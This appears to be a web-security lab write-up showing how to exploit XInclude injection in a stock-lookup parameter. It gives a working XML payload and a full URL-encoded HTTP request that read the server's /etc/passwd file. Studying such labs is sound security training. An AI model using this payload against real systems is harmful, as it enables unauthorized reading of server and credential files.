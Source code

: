 # Lab: Exploiting XInclude to retrieve files
## Description
The application's stock lookup function accepts the following input:
```
productId=1&storeId=1
```
Clearly, we don't control the entire XML document and can therefore not define DTD entities. But the `productId` parameter value is injected into an XML document on the server-side.

By injecting an XInclude namespace and path to a file we wish to include. Example payload:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Solution

URL encode the XInclude payload into the `productId` parameter:

```yaml
POST /product/stock HTTP/1.1
Host: ac901f441f1bc690c0870a6800db006b.web-security-academy.net
Content-Length: 142
Content-Type: application/x-www-form-urlencoded

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```